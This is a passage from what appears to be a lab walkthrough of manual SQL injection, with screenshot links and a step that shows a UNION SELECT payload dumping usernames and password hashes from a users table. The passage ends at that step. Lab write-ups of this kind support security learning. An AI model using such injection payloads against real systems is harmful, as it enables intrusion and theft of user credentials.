         ![Manual SQLi current DB name](./screenshots/sql-injection/manual-sqli-current-db-name.jpg)

    5. Try dumping credentials:
        ```sql
        -1 UNION SELECT user, password FROM users --
        ```
        - Shows the password hashes for the usernames
        - Screenshot of the credentials dump result:
        